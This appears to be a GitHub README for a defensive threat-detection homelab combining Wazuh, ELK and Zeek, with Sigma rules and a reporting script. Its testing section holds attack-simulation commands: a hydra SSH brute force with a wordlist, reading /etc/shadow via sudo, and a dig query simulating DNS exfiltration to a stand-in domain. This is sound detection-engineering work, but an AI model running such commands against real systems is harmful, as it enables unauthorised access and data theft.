

# Threat Detection Homelab

A proactive Security Information and Event Management (SIEM) homelab built with **Wazuh**, **the ELK Stack (Elasticsearch, Logstash, Kibana)**, and **Zeek** for network security monitoring. This project demonstrates core cybersecurity capabilities including log aggregation, threat detection, automated alerting, and dashboard visualization.

## 🚀 Features

*   **Integrated Security Monitoring:** Correlates host-based events (Wazuh agents) with network-level metadata (Zeek) for comprehensive visibility.
*   **Custom Threat Detection:** Implements proactive hunting using custom Sigma rules for:
    *   SSH Brute-Force Attacks
    *   Suspicious Sudo Privilege Escalation
    *   DNS Tunnel-based Data Exfiltration
*   **Centralized Dashboards:** Built Kibana/OpenSearch Dashboards for real-time monitoring of security events, agent health, and alert trends.
*   **Automation & Reporting:** A Python script that queries the Wazuh API to generate and email a daily triage report of high-severity alerts, significantly improving Mean Time to Detect (MTTD).

## 🏗️ Architecture



## ⚙️ Setup & Installation

### Prerequisites
*   Ubuntu/CentOS server(s)
*   Python 3.x
*   Basic familiarity with Linux command line

### 1. Core Infrastructure
1.  **Deploy Wazuh Manager:** Follow the official [Wazuh installation guide](https://documentation.wazuh.com/current/installation-guide/index.html).
2.  **Deploy ELK Stack:** Install and configure Elasticsearch, Logstash, and Kibana as per the [Wazuh ELK guide](https://documentation.wazuh.com/current/installation-guide/installing-elastic-stack/index.html).
3.  **Install Zeek:** Set up Zeek on a monitoring host or the Wazuh server itself.
    ```bash
    sudo apt-get update && sudo apt-get install zeek -y
    ```

### 2. Integration
1.  **Forward Zeek Logs to Wazuh:** Configure the Wazuh agent to read and send Zeek logs (`/opt/zeek/logs/current/*.log`) to the manager. Modify the agent's `ossec.conf`:
    ```xml
    <localfile>
      <log_format>json</log_format>
      <location>/opt/zeek/logs/current/dns.log</location>
    </localfile>
    <!-- Repeat for http.log, conn.log, etc. -->
    ```
2.  **Install Custom Rules:** Place the provided Sigma rule files (`.yml`) into `/var/ossec/etc/rules/` on the Wazuh manager and restart the service.
    ```bash
    sudo systemctl restart wazuh-manager
    ```

### 3. Automation & Reporting
1.  **Configure the Python Script:**
    *   Clone this repository.
    *   Install required Python libraries: `pip install requests`.
    *   Edit `daily_triage_report.py` and set the configuration variables (Wazuh API URL, credentials, email settings).
2.  **Create a Wazuh API User:** Create a read-only user in Wazuh for the script to use.
3.  **Schedule the Script:** Add a cron job to run the script daily.
    ```bash
    # Edit crontab: crontab -e
    # Run at 8:00 AM every day
    0 8 * * * /usr/bin/python3 /path/to/scripts/daily_triage_report.py
    ```

## 📊 Usage

### Accessing Dashboards
*   **Kibana/OpenSearch Dashboards:** Navigate to `http://<your-server-ip>:5601`. Explore the pre-built "Security Overview" dashboard for visualizations of alert data.
*   **Wazuh Dashboard:** Navigate to `http://<your-server-ip>:443` to see the native Wazuh interface for agent management and real-time alerts.

### Testing Detection Rules
1.  **SSH Brute-Force:** Use `hydra` or `sshpass` to generate failed SSH login attempts from a test machine.
    ```bash
    hydra -l invalid_user -P /usr/share/wordlists/rockyou.txt ssh://<your-lab-ip>
    ```
2.  **Suspicious Sudo:** On a monitored agent, try running a command like `sudo bash` or `sudo cat /etc/shadow`.
3.  **DNS Exfiltration:** Use `dig` to query an unusually long subdomain or a known malicious domain pattern you've configured in your rule.
    ```bash
    dig $(head -c 50 /dev/urandom | base64).suspicious-domain.com
    ```

### Viewing Reports
The daily triage report will be delivered via email at the scheduled time, providing a summary of critical alerts that need investigation.

## 📁 Project Structure

```
threat-detection-homelab/
│
├── rules/                    # Custom Sigma Rules
│   ├── ssh_brute_force.yml
│   ├── suspicious_sudo.yml
│   └── dns_exfiltration.yml
│
├── scripts/
│   └── daily_triage_report.py  # Python automation script
│
├── screenshots/              # Dashboard and alert screenshots
│   └── dashboard-overview.png
│
└── README.md
```

## 🛡️ Custom Sigma Rules Overview

| Rule Name | Purpose | Key Logic |
| :--- | :--- | :--- |
| **SSH Bruteforce** | Detect password spraying attacks | `count() by source.ip of authentication_failure events > 5` |
| **Suspicious Sudo** | Detect post-exploitation privilege abuse | `Successful sudo execution of /bin/bash, /bin/sh, etc.` |
| **DNS Exfiltration** | Detect data tunneling via DNS | `DNS query length > 50 chars OR query matches known malicious pattern` |

## 🤝 Contributing

Contributions and ideas are welcome! Feel free to fork this project, open an issue, or submit a pull request for new detection rules, dashboard visualizations, or automation scripts.

## 📜 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## 🙏 Acknowledgments

*   [Wazuh](https://wazuh.com/) for the open-source XDR and SIEM platform.
*   [Zeek](https://zeek.org/) for powerful network analysis.
*   [Elastic](https://www.elastic.co/) for the ELK Stack.
*   The [Sigma](https://github.com/SigmaHQ/sigma) community for the generic signature format.

---
**Built for learning and demonstrating modern threat detection techniques.**
